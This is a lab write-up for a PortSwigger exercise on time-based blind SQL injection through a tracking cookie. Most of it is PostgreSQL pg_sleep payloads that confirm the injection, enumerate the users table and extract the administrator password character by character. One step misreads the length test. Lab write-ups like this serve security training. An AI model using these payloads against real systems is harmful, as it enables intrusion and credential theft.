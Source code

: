 # Lab #13 - Blind SQL Injection with time delays
https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval

Vulnerable parameter - tracking cookie

**End Goal:**
- Exploit time-based blind SQLi to output the administrator password
- Login as the administrator user

**Analysis:**

1) Confirm that the parameter is vulnerable to SQLi
```SQL 
' || pg_sleep(10)--
```
2) Confirm that the users table exists in the database
True usecase
```SQL 
' || (select case when (1=1) then pg_sleep(10) else pg_sleep(-1) end)--
```
False usecase
```SQL 
' || (select case when (1=0) then pg_sleep(10) else pg_sleep(-1) end)--
```
```SQL 
' || (select case when (username='administrator') then pg_sleep(10) else pg_sleep(-1) end from users)--
```
-> True

3) Enumerate the password length


```SQL 
' || (select case when (username='administrator' and LENGTH(password)>20) then pg_sleep(10) else pg_sleep(-1) end from users)--
```
-> length of password is 20 characters

4) Enumerate the administrator password
```SQL 
' || (select case when (username='administrator' and substring(password,1,1)='a') then pg_sleep(10) else pg_sleep(-1) end from users)--
```
